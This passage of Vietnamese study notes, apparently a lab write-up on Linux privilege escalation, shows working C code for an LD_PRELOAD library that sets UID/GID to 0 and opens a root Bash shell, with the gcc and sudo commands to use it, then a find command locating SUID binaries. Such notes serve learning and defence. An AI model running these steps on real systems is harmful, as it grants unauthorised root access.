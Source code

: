     - Đoạn mã giúp leo thang đặc quyền lên `root` với quyền `sudo nano`
        
        ```c
        #include <stdio.h>
        #include <sys/types.h>
        #include <stdlib.h>
        
        void _init() {
        	unsetenv("LD_PRELOAD");
        	setgid(0);
        	setuid(0);
        	system("/bin/bash");
        }
        ```
        
        → Loại bỏ `LD_PRELOAD` 
        
        → Thay đổi **ID người dùng (UID)** và **ID nhóm (GID)** (**`setgid(0)`** và **`setuid(0)`**) của chương trình thành **0**, tức là **root** 
        
        → Thực thi lệnh hệ thống, ở đây là mở một shell Bash (`/bin/bash`)
        
    - Biên dịch mã nguồn thành một thư viện chia sẻ có tên là `shell.so`
        
        ```bash
        gcc -fPIC -shared -o shell.so shell.c -nostartfiles
        ```
        
    - Chạy lệnh với biến môi trường với đường dẫn tới thư viện chia sẻ
        
        ```bash
        sudo LD_PRELOAD=/home/user/ldpreload/shell.so find  
        ```
        
    - Quyền `sudo find` được sử dụng để tìm kiếm các tệp trong hệ thống
        
        ![image.png](image%203.png)
        

## Privilege Escalation: SUID

- **SUID** là một bit đặc biệt trong quyền truy cập của tệp. Khi bit này được thiết lập cho một tệp thực thi, người dùng thực thi tệp đó sẽ có quyền của người sở hữu tệp (thường là **root**), thay vì quyền của người dùng đang chạy lệnh
- Nếu chạy 1  tệp với **SUID** cũng tương đương như chạy tệp đó với tư cách là người sở hữu tệp. 
Điều này có thể dẫn đến việc **leo thang đặc quyền** nếu tệp đó được sở hữu bởi **root**.
- Tìm các tệp có bit **SUID**
    - Sử dụng `find / -type f -perm -04000 -ls 2>/dev/null`
        
